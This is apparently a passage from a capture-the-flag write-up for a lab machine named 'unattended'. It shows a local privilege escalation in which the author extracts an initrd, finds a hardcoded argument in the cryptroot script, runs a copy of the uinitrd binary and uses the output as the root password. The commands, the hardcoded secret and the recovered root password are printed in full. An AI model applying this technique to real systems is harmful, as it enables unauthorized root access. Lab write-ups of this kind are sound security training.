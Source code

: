 ```
scripts/init-top
scripts/init-top/ORDER
scripts/init-top/udev
scripts/init-top/all_generic_ide
scripts/init-top/keymap
scripts/init-top/blacklist
scripts/functions
scripts/init-bottom
scripts/init-bottom/ORDER
...
```

Searching for references to `guly` leads us to `./scriptws/local-top/cryptroot`
```
guly@unattended:/tmp/initrd$ find . -type f -exec grep -Hi guly {} \;
./scripts/local-top/cryptroot:      # guly: we have to deal with lukfs password sync when root changes her one
Binary file ./initrd.img-4.9.0-8-amd64 matches
```

Examining the `cryptroot` script, we find the following code
```
     # guly: we have to deal with lukfs password sync when root changes her one
      if ! crypttarget="$crypttarget" cryptsource="$cryptsource" \
        /sbin/uinitrd c0m3s3f0ss34nt4n1 | $cryptopen ; then
                                message "cryptsetup: cryptsetup failed, bad password or options?"
                                sleep 3
                                continue
                        fi
                fi
```

This generates root passwords with `/sbin/uinitrd` and pipes them into `$cryptopen`. Running `/sbin/uinitrd` results in a permission error, but within our extracted initrd image we have our own copy of `uinitrd` without restrictions. 

```
guly@unattended:/tmp/initrd$ /sbin/uinitrd c0m3s3f0ss34nt4n1
bash: /sbin/uinitrd: Permission denied

guly@unattended:/tmp/initrd$ find . -type f -name uinitrd
./sbin/uinitrd

```

We will move that file to `/home/guly` and execute it with the hardcoded credentials to obtain a root password.
```
guly@unattended:~$ cd /tmp
guly@unattended:/tmp$ cd /home/guly
guly@unattended:~$ cp /tmp/initrd/sbin/uinitrd .
guly@unattended:~$ ./uinitrd c0m3s3f0ss34nt4n1
132f93ab100671dcb263acaf5dc95d8260e8b7c6guly@unattended:~$ su root 
Password: 132f93ab100671dcb263acaf5dc95d8260e8b7c6
```
